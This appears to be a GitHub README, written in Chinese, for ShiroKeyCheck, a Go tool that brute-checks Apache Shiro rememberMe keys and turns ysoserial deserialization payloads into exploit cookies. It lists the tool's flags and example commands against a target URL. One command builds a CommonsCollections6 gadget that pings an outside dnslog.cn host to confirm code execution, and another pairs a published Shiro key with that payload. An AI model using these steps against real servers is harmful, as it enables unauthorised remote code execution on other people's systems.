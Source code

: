 # Shiro key检测
golang 开发，多平台支持。

为了适应不同目标不同网络情况，增加了多种http请求参数，如：指定请求超时时间、每次请求间隔时间、http代理。

内置了129个key，默认支持AES-CBC和AES-GCM两种模式检测。

支持对ysoserial 生成的payload进行加密，生成rememberMe字段，进行利用。

## 用法

```
Usage of ./ShiroKeyCheck:
  -content string
    	指定当是POST方法时 body里的内容
  -interval int
    	每个请求的间隔时间(s)
  -key string
    	指定key进行检测（默认CBC和GCM都会检测）
  -m string
    	指定请求方法 (默认是 "GET")
  -mode string
    	指定加密模块CBC或GCM  (只对-ser参数有效)
  -proxy string
    	设置http代理 e.g. http://127.0.0.1:8080
  -ser string
    	payload的字节码文件（可通过ysoserial生成）
  -timeout int
    	请求超时时间(s) (default 60s)
  -u string
    	目标url（必须）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```
### key检测

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp`
![](image/1.png)

### 设置代理和请求间隔

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![](image/2.png)

### 对ysoserial生成的payload 进行加密

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![](image/3.png)

## 编译

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```





